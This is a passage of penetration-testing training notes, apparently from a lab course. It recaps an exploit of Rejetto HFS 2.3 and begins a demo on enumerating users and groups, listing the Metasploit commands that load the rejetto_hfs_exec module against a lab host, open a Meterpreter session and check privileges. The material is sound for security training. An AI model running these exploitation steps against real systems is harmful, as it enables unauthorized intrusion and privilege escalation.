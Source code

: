 
#### Conclusion

In this demo, we:
1. Checked connectivity to the target system.
2. Used **Nmap** to identify services running on the target.
3. Found an exploit for **Rejetto HTTP File Server 2.3** using **Searchsploit**.
4. Exploited the service using **Metasploit** to gain a **Meterpreter session** on the target.
5. Enumerated system information, including the **Windows version**, **installed updates**, and other details, to identify potential vulnerabilities.

This process is critical in any penetration test as it helps gather useful information that can be used to further escalate privileges or move laterally across the network.

### Enumerating Users & Groups

- After gaining initial access to a target system, it is always important to learn more about the system like, what user account you have access to and other user accounts on the system.
- What are we looking for?
  - Current user & privileges
  - Additional user information
  - Other users on the system
  - Groups
  - Members of the built-in administrator group

### Demo: Enumerating Users & Groups

#### Step 1: Start Metasploit and Exploit Rejetto HFS

Start **Metasploit**:

```bash
msfconsole
```

Load the **Rejetto HFS exploit module**:

```bash
use exploit/windows/http/rejetto_hfs_exec
```

Set the target address:

```bash
set rhosts demo.ine.local
```

Run the exploit to gain a **Meterpreter session**:

```bash
run
```

#### Step 2: Check User ID and Privileges

Once we have a **Meterpreter session**, check the current user and privileges:

```bash
getuid
getprivs
```
